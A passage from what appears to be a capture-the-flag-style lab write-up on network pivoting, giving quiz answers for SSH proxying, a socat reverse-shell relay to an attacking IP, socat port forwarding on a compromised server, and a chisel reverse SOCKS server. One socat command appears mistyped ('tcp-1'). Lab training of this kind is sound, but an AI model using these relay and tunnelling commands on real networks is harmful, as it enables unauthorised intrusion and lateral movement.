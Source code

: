 Formatting for this:

```
ssh -D 8000 ACCESSEDSERVERIP:80 user@internalip:port -fN
```

Answer:

```
ssh -D 8000 172.16.0.50:80 user@127.0.0.1:80 -fN
```

## Task 12: [Pivoting] plink.exe

Read about plink and puttygen to answer the question.

## Task 13: [Pivoting] Socat

Read about Socat's Reverse Shell Relays, and Port Forwarding then use the information to answer #1.

**2) If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?**

Use TCP port 8000 for the server listener, and do not background the process.

```
./socat tcp-l:8000 tcp:172.16.0.200:443
```

**What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?**

```
./socat tcp-1:2222,fork,reuseaddr tcp:172.16.0.100:22 &
```

You can look at the room on [shells](https://tryhackme.com/room/introtoshells) to create an encrypted port forward or relay using OPENSSL with socat.

## Task 14: [Pivoting] [Chisel](https://github.com/jpillora/chisel)

Read about Chisel and it's Reverse/Forward SOCKS Proxy and Remote\Local Port Forward.

**1) What command would you use to start a chisel server for a reverse connection on your attacking machine? Use port 4242 for the listener and do not background the process.**

Formatting:

```
./chisel server -p LISTEN_PORT --reverse
```

Answer:

```
./chisel server -p 4242 --reverse
```
